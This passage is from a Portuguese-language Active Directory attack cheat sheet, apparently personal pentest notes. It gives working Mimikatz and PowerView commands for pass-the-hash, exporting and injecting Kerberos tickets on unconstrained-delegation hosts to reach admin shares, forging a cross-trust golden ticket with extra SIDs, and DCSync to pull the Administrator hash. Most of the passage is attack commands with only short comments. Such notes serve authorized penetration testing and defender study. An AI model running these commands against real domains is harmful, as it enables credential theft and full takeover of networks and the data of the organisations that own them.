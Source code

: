 ```powershell
./mimikatz.exe sekurlsa::pth /user:USUÁRIO /domain:DOMINIO /ntlm:HASH_NTLM_EXTRAIDO /run:powershell.exe

Invoke-Mimikatz -Command '"sekurlsa::pth /user:USUÁRIO /domain:DOMINIO /ntlm:HASH_NTLM_EXTRAIDO /run:powershell.exe'
```

#### Pass-The-Ticket

Esse eu utilizo muito no [Unconstrained Delegation](#Unconstrained-Delegation), mas tem outras aplicações também

```powershell
# Primeiro devemos ver quais máquinas tem o Uncosntrained Habilitado
Get-NetComputer -UnConstrained | select Name

# Com essa informação, exportamos o ticket dentro da máquina que apareceu no comando anterior (aqui eu cirei uma seção nela, mas pode ser feito direto tbm)
Invoke-Command -ScriptBlock {Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::tickets /export"'} -Session $sess

# Após termos extraidos todos os tickets, vemos qual é interessante de se reutilizar, aqui tem que esperar algm DA ou algum usuário específico logar na máquina pra ser criado o ticket de seção pra ele, e então injetamos na seção
Invoke-Command -ScriptBlock{Invoke-Mimikatz -Command '"kerberos:: ptt [...]"'} -Session $sess

# Agora acessamos a máquina que não tinhamos acesso antes
Invoke-Command -Scriptblock{ls \\MÁQUINA.QUE.NÃO.TINHA.ACESSO.SEM.O.TICKET.local\C$} -session $sess
```

Depois especifico melhor na aba do [Unconstrained Delegation](#Unconstrained-Delegation) (ou não!)

#### Privilege Across Trusts

Na bucha é um Golden Ticket, mas através do trusts dos domains

```powershell
# Aqui ele vai criar o ticket e ja injetar na seção
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:AB.DOMINIO.local /sid:<SID do AB.DOMINIO.local> /krbtgt:KRBTGT_NTLM /sids:<SID do DOMINIO.local> /ptt"'

# AB.DOMINIO.local - Get-DomainSID
# DOMINIO.local - Get-DomainSID -Domain DOMINIO.local
```

Agora vamos ter acesso ao DOMINIO.local através do AB.DOMINIO.local

#### DCSync

```powershell
# Sempre lembrar do privilege::debug e do token::elevate
Invoke-Mimikatz -Command "privilege::debug" "token::elevate" "lsadump::dcsync /domain:AB.DOMINIO.local /user:Administrator" "exit"
```
